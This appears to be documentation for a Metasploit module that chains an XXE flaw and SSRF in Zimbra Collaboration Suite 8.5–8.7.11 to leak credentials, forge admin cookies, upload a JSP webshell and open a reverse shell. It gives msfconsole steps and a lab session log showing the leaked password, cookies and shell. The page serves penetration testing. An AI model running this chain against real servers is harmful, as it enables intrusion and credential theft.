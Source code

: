 ## Description

This module exploits an XML external entity vulnerability and a server side request forgery to get unauthenticated code execution on Zimbra Collaboration Suite. The XML external entity vulnerability in the Autodiscover Servlet is used to read a Zimbra configuration file that contains an ldap password for the 'zimbra' account. The zimbra credentials are then used to get a user authentication cookie with an AuthRequest message. Using the user cookie, a server side request forgery in the Proxy Servlet is used to proxy an AuthRequest with the 'zimbra' credentials to the admin port to retrieve an admin cookie. After gaining an admin cookie the ClientUploader is used to upload a jsp webshell that can be triggered from the web server to get command execution on the host. The issues reportedly affects Zimbra Collaboration Suite v8.5 to v8.7.11. This module was tested with Zimbra Release 8.7.1.GA.1670.UBUNTU16.64 UBUNTU16_64 FOSS edition.

## Vulnerable Application

Zimbra Collaboration Suite v8.5 to v8.7.11.

[Zimbra 8.7.1 GA FOSS Edition](https://files.zimbra.com/downloads/8.7.1_GA/zcs-8.7.1_GA_1670.UBUNTU16_64.20161025045114.tgz)

[Installation](https://zimbra.github.io/installguides/latest/single.html#Installing_Zimbra_Collaboration_Software)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/linux/http/zimbra_xxe_rce`
3. `set rhosts <rhost>`
4. `set lhost <lhost>`
5. `exploit`

## Scenarios

### Zimbra 8.7.1 GA 1670 FOSS edition Tested on Ubuntu 16.04.6 LTS

```
msf5 exploit(linux/http/zimbra_xxe_rce) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Using URL: http://0.0.0.0:8080/2tQ75DxRvaeGRSP
[*] Local IP: http://192.168.171.150:8080/2tQ75DxRvaeGRSP
[*] Server started.
[+] Password found: Syz7fOPJI
[+] User cookie retrieved: ZM_AUTH_TOKEN=0_c6df3ed73afbefd7eff40eb9f6999794ebf764b5_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343239343539303239353b747970653d363a7a696d6272613b753d313a613b7469643d393a3538303338373138373b;
[+] Admin cookie retrieved: ZM_ADMIN_AUTH_TOKEN=0_c1c8a6c715eb8f55c14aa63e82a8ff64e4fbe279_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343136343939303333353b61646d696e3d313a313b747970653d363a7a696d6272613b753d313a613b7469643d383a36303437383736333b;
[*] Uploading jsp shell
[*] Executing payload on /downloads/XFlHBolHjLB.jsp
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.111:53746) at 2019-04-01 07:29:51 -0500
[*] Server stopped.

whoami
zimbra
uname -a
Linux zimbra.mylocaldomain.local 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
../bin/zmcontrol -v
Release 8.7.1.GA.1670.UBUNTU16.64 UBUNTU16_64 FOSS edition.
exit
[*] 172.22.222.111 - Command shell session 1 closed.
```

